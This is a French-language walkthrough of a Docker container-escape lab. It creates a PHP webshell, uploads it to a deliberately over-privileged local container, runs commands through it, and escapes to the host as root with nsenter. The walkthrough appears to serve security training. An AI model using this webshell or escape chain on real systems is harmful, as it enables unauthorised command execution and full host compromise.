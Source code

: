 
## Commandes principales utilisées et explications

1. Construction de l’image depuis le Dockerfile :

```
docker build -t capabilities-lab .
```

2. Lancement du conteneur avec capacités étendues et PID hôte :

```
docker run --rm --cap-add=ALL --pid=host --security-opt apparmor=unconfined --name capabilities-lab -p 8080:8080 capabilities-lab
```

3. Création locale du fichier `shell.php` :

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

4. Upload du webshell sur le serveur :

```
curl -F 'file=@shell.php' http://localhost:8080/
```

5. Vérification d’exécution avec :

```
curl "http://localhost:8080/uploads/shell.php?cmd=id"
```
(Sortie avec l’utilisateur `www-data` du conteneur)

6. Récupération de l’ID du conteneur :

```
docker ps -f name=capabilities-lab --format "{{.ID}}"
```

7. Shell interactif dans le conteneur :

```
docker exec -it <CONTAINER_ID> bash
```

8. Sortie du conteneur vers hôte avec `nsenter` :

```
sudo /usr/bin/nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

9. Vérification que l’on est root sur l’hôte :

```
id
```

---

## Difficultés rencontrées
